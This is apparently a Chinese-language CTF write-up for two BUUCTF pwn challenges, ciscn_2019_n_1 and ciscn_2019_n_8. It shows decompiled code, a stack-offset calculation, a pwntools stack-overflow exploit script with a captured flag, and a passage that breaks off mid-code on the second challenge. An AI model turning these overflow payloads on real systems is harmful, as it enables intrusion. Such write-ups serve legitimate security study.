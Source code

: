 先`file ./ciscn_2019_n_1`查看文件类型再`checksec --file=ciscn_2019_n_1`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/ciscn_2019_n_1/1.png)

用`IDA Pro 64bit`打开`ciscn_2019_n_1`后按`F5`反汇编源码并查看主函数，发现`fun()`函数最可疑。

![](https://paper.tanyaodan.com/BUUCTF/ciscn_2019_n_1/2.png)

双击`func()`函数查看源码可以看到当`v2 = 11.28125`时会有一个系统调用。

![](https://paper.tanyaodan.com/BUUCTF/ciscn_2019_n_1/3.png)

查看汇编代码双击`cs:dword_4007F4`可以看到`11.28125`在内存中的`16`进制表示为`0x41348000`。

![](https://paper.tanyaodan.com/BUUCTF/ciscn_2019_n_1/4.png)

查看栈结构，此处`var_30`是`v1`，而`var_4`是`v2`，需要`(0x30-0x04)=44`个字节就能让栈溢出，最后再填入`11.28125`对应的十六进制数`0x41348000`。

![](https://paper.tanyaodan.com/BUUCTF/ciscn_2019_n_1/5.png)

编写`Python`脚本连接`node4.buuoj.cn`的监听端口`25860`，发送`payload`即可得到`flag{42086316-01d7-47ee-bfaa-00861bbe8222}`。

```python
from pwn import *

io = remote('node4.buuoj.cn', 25860)
payload = b'a'*(0x30 - 0x4) + p64(0x41348000)
io.sendline(payload)
io.interactive()
```

![](https://paper.tanyaodan.com/BUUCTF/ciscn_2019_n_1/6.png)

------

### [ciscn_2019_n_8](https://buuoj.cn/challenges#ciscn_2019_n_8)

先`file ./ciscn_2019_n_8`查看文件类型再`checksec --file=./ciscn_2019_n_8`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/ciscn_2019_n_8/1.png)

用`IDA Pro 32bit`打开`ciscn_2019_n_8`后按`F5`反汇编，可以看到主函数源码如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-20h]
  int v5; // [esp-10h] [ebp-1Ch]

  var[13] = 0;
  var[14] = 0;
  init();
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5);
  if ( *(_QWORD *)&var[13] )
  {
    if ( *(_QWORD *)&var[13] == 17LL )  //当var[13]的值等于0x11即17就能系统调用/bin/sh
      system("/bin/sh");
    else
      printf(
        "something wrong! val is %d",
        var[0],
        var[1],
        var[2],
```